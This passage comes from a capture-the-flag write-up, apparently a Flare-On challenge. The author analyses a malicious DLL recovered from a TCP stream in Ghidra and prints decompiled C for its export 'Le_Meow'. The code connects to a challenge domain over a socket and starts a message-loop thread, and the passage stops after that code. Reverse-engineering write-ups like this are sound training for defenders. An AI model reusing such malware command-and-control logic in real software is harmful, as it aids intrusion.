 Gotcha! We got a Windows Executable file to analyze! However, trying the same idea on the remainder of the messagse in the second TCP stream seems to yield only garbage data. Maybe the second stream requires some additional thought. Let's jump into the binary first.

## Analyzing the malware

Opening the binary in Ghidra reveals it is actually not a `*.exe` but a `*.dll` file with an export called `Le_Meow`. Looking into this function we can see it starts off with a common set up for winsock sockets, followed by creating a thread that performs a window message loop. After some event was fired within this message loop, it calls another function `FUN_100015d4`, and finally closes off again:

```c
void Le_Meow(void)
{
    /* ... */
    pvVar1 = GetProcessHeap();
    lpMem = HeapAlloc(pvVar1,DVar2,dwBytes);
    *lpMem = "xn--zn8hrcq4eeadihijjk.flare-on.com";
    *(lpMem + 1) = 0x539;
    /* ... */
    result = WSAStartup(0x202,&local_1a0);
    /* ... */
    if (result == 0) {
        result = gethostbyname(*lpMem);
        /* ... */
        if (result != 0) {
            socket = WSASocketA(AF_INET,SOCK_STREAM,IPPROTO_TCP,0,0,0);
            /* ... */
            if (socket != -1) {
                /* ... */
                result = connect(socket,&stack0xfffffe40,0x10);
                /* ... */
                if (result != -1) {
                    hEvent_10004018 = CreateEventA(NULL,1,0,"MEEEEEEEE0000000000W");
                    /* ... */
                    if (hEvent_10004018 != NULL) {
                        pvVar1 = CreateThread(NULL,0,do_message_loop,NULL,0,&stack0xfffffe40);
                        while (uVar3 = unaff_ESI, HANDLE_IMAGE == NULL) {
                            Sleep(500);
                        }
                        FUN_100015d4();
                        SetEvent(hEvent_10004018);
                        if (hWnd_100043c0 != NULL) {
                            SendMessageA(hWnd_100043c0,WM_CLOSE,0,0);
                        }
                        /* ... */
                    }
                }
            }
        }        
        /* ... */
    }
    /* ... */
}
```
